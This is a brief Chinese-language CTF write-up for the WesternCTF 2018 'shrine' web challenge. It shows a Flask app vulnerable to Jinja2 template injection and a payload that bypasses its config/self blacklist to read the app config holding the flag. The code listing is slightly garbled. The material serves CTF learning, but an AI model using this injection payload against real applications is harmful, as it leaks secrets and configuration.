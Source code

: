 # WesternCTF 2018

## Web

### shrine

```python
import flask import os 

app = flask.Flask(__name__) 
app.config['FLAG'] = os.environ.pop('FLAG') 

@app.route('/')
def index(): 
    return open(__file__).read()

@app.route('/shrine/')
def shrine(shrine): 
    def safe_jinja(s): 
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{<div data-gb-custom-block data-tag="set"></div>}'.format(c) for c in blacklist]) + s
    return flask.render_template_string(safe_jinja(shrine)) 

if __name__ == '__main__': 
    app.run(debug=True)
```

通过分析代码可以得知 flag 在 config 里面，但是 config 和 self 都被列入了黑名单，所以需要通过其他方式来获取全局变量，Payload 如下

```
{{url_for.__globals__['current_app'].config}}
```
